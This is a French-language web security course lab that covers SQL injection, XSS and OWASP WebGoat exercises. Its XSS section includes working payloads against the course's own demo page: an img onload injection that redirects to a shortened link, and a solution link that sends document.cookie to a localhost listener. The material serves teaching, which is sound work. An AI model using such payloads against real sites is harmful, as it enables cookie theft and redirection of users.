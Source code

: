 ```yaml
---
description: Le meilleur moyen de comprendre la sécurisation d’une application / site Internet, c’est de
---
```


# TP Sécurité

Le meilleur moyen de comprendre la sécurisation d’une application / site Internet, c’est de …

- Passer des heures sur de la théorie ?
- Passer des heures sur du code à vous ?
- Passer des heures à tenter des intrusions ?
- La réponse D ?

## Partie 1 : Les injections SQL

Avant d'utiliser WebGoat, nous allons nous focaliser sur la partie Injection SQL, pour ça nous allons utiliser le site [Hack Splaining](https://www.hacksplaining.com/exercises/sql-injection).

Celui-ci contient un bon « tutoriel » interactif permettant de tester et de se former au principe d’injections SQL.

## Partie 2 : Les XSS

Voilà un exemple simple de XSS via un input non filtré.

<Sample src="xss" />

::: danger Quoi faire ?

Ici, l'idée, est de trouver comment éxécuter du code via un simple chargement d'image ! Pour ça il faut connaître un peu le HTML et le fonctionnement des balises classique.

Une balise img, vous conaissez… Elle prend en paramètre un attribut `src`… ok ! Mais elle a également un autre attribut … nommé … `onload` cette attribut permet d'éxécuter du code quand la ressource (l'image) est chargé. Nous allons donc exploiter un code « mal écrit » pour charger du code JavaScript.

Pour ça, dans le champs de saisie, je vous propose de mettre:

```
https://fakeimg.pl/300/" onload="alert('Coucou'); window.location='https://bit.ly/3Bpiela'"
```

Que-ce passe-t-il ? Pourquoi ? Regardons le code source ensemble !

:::

### 2.1 Exploiter la faille

En partant du code précédent, afficher dans la page un formulaire en exploitant la faille `onload` du code fourni.

### 2.1 La même chose mais par lien…

Vous l'avez peut-être remarqué, dans le code JavaScript il est également possible de spécifier une image. Par exemple il est possible d'écrire un lien :

- [https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/600/](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/600/)

Ce lien est source **d'un très grand danger**, je vous propose de réfléchir à comment il serait possible d'exploiter « le paramètre uri » afin de lui donner de détourner le comportement du site.

- Trouver un moyer de réaliser la même attaque que le code précédent (point 2.0).
- Envoyer le lien à une autre personne.
- Lire des données sur son ordinateur (nous allons le faire ensemble).

C'est à vous (enfin à nous).

::: details Solution

- [Exemple de solution (injection via lien)](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/300/%22%20onload=%22alert(%27Coucou%27);%20window.location=%27<https://bit.ly/3Bpiela%27%22>)

- [Exemple de vol de cookie](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/300/%22%20onload=%22document.body.insertAdjacentHTML(%27beforeend%27,%20`%3Clink%20rel=%27stylesheet%27%20href=%27<http://localhost:8888/?v=${document.cookie}%27%20/%3E>`)%22)

Étudier le code JavaScript et le code HTML généré, pourquoi ça ne fonctionne pas ?

:::

## Partie 2.1 : Les XSS

Pour mieux comprendre l'aspect dangereux d'une XSS nous allons utiliser Hack Splaining, pour ça rendez-vous sur [Hack Splaining](https://www.hacksplaining.com/exercises/xss-stored)

Celui-ci contient un bon « tutoriel » interactif permettant de tester et de se former au principe de XSS.

## Partie 3 : WebGoat

![Superbe Logo](./webgoat.png)

WebGoat est un outil didactique aux dimensions pédagogiques proposé par le groupe OWASP. Il s'agit d'une application WEB J2EE développée en Java et destinée à l'enseignement de manière interactive.

Elle vise à familiariser l'utilisateur aux technologies WEB (E.g: protocole HTTP, Encoding, AJAX), aux mécanismes du protocole HTTP et aux vulnérabilités qui peuvent en découler. Cet enseignement se fait au travers de différentes leçons, chacune abordant un concept particulier, détaillant un problème de sécurité donné avant de soumettre l'utilisateur à une mise en pratique immédiate. Chaque leçon (JSP) présente sur l'application comporte une vulnérabilité que l'utilisateur peut identifier et tenter d'exploiter (E.g: Injection SQL permettant de retrouver de fausses informations comme des numéros de cartes de crédit).

Voilà une liste des éléments que nous allons pouvoir « exploiter » dans WebGoat :

- Flux des contrôles d'accès et authentification
- Flux de gestion de session utilisateur
- Cross-Site Scripting (XSS)
- Injections
- Parameter and Data Tampering
- Buffer Overflows
- Configuration et stockage de données (non sécurisée)
- Sécurité AJAX

Nous n’allons bien évidemment pas tous les faire, l’idée est d’en faire quelques-uns et si vous le souhaitez vous pourrez approfondir le sujet.

![](./webgoat-dom-injection-700x407.png)

## Téléchargement

Deux versions existent :

- Le jar
- Un containeur Docker

Nous allons choisir la version Docker :

## Lancement

```sh
docker run -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 -e TZ=Europe/Amsterdam webgoat/webgoat
```

C’est parti, vous pouvez maintenant aller sur [http://127.0.0.1:8080/WebGoat](http://127.0.0.1:8080/WebGoat)

⚠️ Nous allons utiliser un outil intégrant des failles… Pour éviter tout risque pour votre machine, le mieux est de couper l’accès au réseau de votre ordinateur. ⚠️

## À faire

- AJAX Security
  - LAB: Client Side Filtering
  - LAB: DOM-Based cross-site scripting
  - Dangerous Use of Eval
- Concurrency
  - Thread Safety Problems
  - Shopping Cart Concurrency Flaw
- Injection Flaws
  - Command Injection (si vous souhaitez faire du MITM - Man In The Middle -)
  - Numeric SQL Injection
  - String SQL Injection
- Parameter Tampering
  - Exploit Hidden Fields
